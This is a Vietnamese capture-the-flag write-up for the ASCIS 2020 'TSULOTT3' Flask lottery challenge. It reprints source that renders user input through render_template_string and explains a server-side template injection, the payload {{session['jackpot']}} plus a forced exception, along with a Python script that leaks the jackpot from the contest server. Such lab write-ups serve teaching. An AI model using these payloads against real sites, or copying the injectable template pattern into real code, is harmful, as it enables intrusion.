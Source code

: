 # ASCIS 2020 QUALIFICATION ROUND

## TSULOTT3

- Đề bài:
    -- This time i made a completely new Lott, so... who want to be a millionaire?
    -- http://34.126.74.16:1337/
    -- Code

```python
from flask import Flask, session, request, render_template, render_template_string
from flask_session import Session
from random import randint as ri

app = Flask(__name__)
SESSION_TYPE = 'filesystem'
app.config.from_object(__name__)
Session(app)
cheat = "Pls Don't cheat! "

def check_session(input):
	if session.get(input) == None:
		return ""
	return session.get(input)

@app.route("/", methods=["GET","POST"])
def index():
	try:
		session.pop("name")
		session.pop("jackpot")
	except:
		pass
	if request.method == "POST":
		ok = request.form['ok']
		session["name"] = request.form['name']
		if ok == "Go":
			session["check"] = "access"
			jackpot = " ".join(str(x) for x in [ri(10,99), ri(10,99), ri(10,99), ri(10,99), ri(10,99), ri(10,99)]).strip()
			session["jackpot"] = jackpot
			return render_template_string("Generating jackpot...<script>setInterval(function(){ window.location='/guess'; }, 500);</script>")
	return render_template("start.html")

@app.route('/guess', methods=["GET","POST"])
def guess():
	try:
		if check_session("check") == "":
			return render_template_string(cheat+check_session("name"))
		else:
			if request.method == "POST":
				jackpot_input = request.form['jackpot']
				if jackpot_input == check_session("jackpot"):
					mess = "Really? GG "+check_session("name")+", here your flag: ASCIS{xxxxxxxxxxxxxxxxxxxxxxxxx}"
				elif jackpot_input != check_session("jackpot"):
					mess = "May the Luck be with you next time!<script>setInterval(function(){ window.location='/reset_access'; }, 1200);</script>"
				return render_template_string(mess)
			return render_template("guess.html")
	except:
		pass
	return render_template_string(cheat+check_session("name"))


@app.route('/reset_access')
def reset():
	try:
		session.pop("check")
		return render_template_string("Reseting...<script>setInterval(function(){ window.location='/'; }, 500);</script>")
	except:
		pass
	return render_template_string(cheat+check_session("name"))


if __name__ == "__main__":
	app.secret_key = 'xxxxxxxxxxxxxxxxxxxxx'
	app.run()
```

1. Detect

    Đọc đoạn code trên ta cũng hiểu được phần nào bài này.

```python
if check_session("check") == "":
    return render_template_string(cheat+check_session("name"))
else:
    if request.method == "POST":
        jackpot_input = request.form['jackpot']
        if jackpot_input == check_session("jackpot"):
            mess = "Really? GG "+check_session("name")+", here your flag: ASCIS{xxxxxxxxxxxxxxxxxxxxxxxxx}"
        elif jackpot_input != check_session("jackpot"):
            mess = "May the Luck be with you next time!<script>setInterval(function(){ window.location='/reset_access'; }, 1200);</script>"
        return render_template_string(mess)
    return render_template("guess.html")
```

Ở trang "\". server sẽ tạo ra cho ta một session["check"] lưu giá trị là "access"
Và một session["jackpot"] gồm 6 con số randint như Vietlot.

Rồi chuyển chúng ta qua trang "/guess". Nếu chúng ta nhập 6 con số vào. Và giống hết so với phía server thì chúng ta có flag.

Đến đây nếu có ai đang suy nghĩ tới việc viết script để bruce force thì khỏi thi. Đi mua Vietlott còn nhanh giàu hơn. ^^

Nhin dạng đề này ta sẽ nghĩ ngay đến Sờ Sờ TI. Server Side Template Injection.

Đầu tiên mình nghĩ tới việc dùng {{session["jackpot"]}} truyền vào jackpot ở trang "/guess"

Nhưng nghĩ lại thấy nó sai sai. Đọc kĩ phần "/guess" một vài (thật ra rất nhiều lần) lần nữa. Mình chợt thấy đoạn này.

```python
except:
    pass
return render_template_string(cheat+check_session("name"))
```

Vậy là nếu bị lỗi. Nó sẽ return về  render_template_string(cheat+check_session("name"))

Vậy ta truyền name = {{session["jackpot"]}}

Rồi truyền jackpot lên sao cho trang "/guess" bị lỗi. Thì Bingo. Trúng số rồi.

Truyền name thì ta làm rồi. Nhưng bây giờ làm sao để cho trang "/guess" bị lỗi đâu.

Với kinh nghiệm fix bug crawl data python nhiều tháng. Mình nhận thấy đoạn này có thể dụng được.

```python
jackpot_input = request.form['jackpot']
```

Tại đoạn này trong khi dùng dictionary mình lỗi hoài à. Phải try expect miết.

Nếu truyền jackpot là None thì lỗi cmnr.

Rồi xong phần lý thuyết. Code để lấy flag thôi.

2. Code

```python
import requests
url = "http://34.126.74.16:1337/"
url_guess = "http://34.126.74.16:1337/guess"
r = requests.Session()
res = r.get(url)
res = r.post(url, data={"name":'{{session["jackpot"]}}','ok':'Go'})
res = r.post(url_guess, data = {"jackpot" : None})
jackpot = res.text.replace("Pls Don't cheat! ", "")
print(jackpot)
res = r.post(url_guess, data = {"jackpot" : jackpot})
print(res.text)
r.close()
```

Code có một đoạn nhỏ. Để khỏi mất công lên trình duyện rước bực vào thân.

Nhìn cũng khá dễ hiêu.

- Đầu tiên tạo một phiên làm việc.
- Sau đó post name lên trang "/".
- Tiếp theo post jackpot = None lên trang "/guess".
- In ra jackpot server random ra.
- Lưu jackpot đó lại, post lên một lần nữa => Ra flag.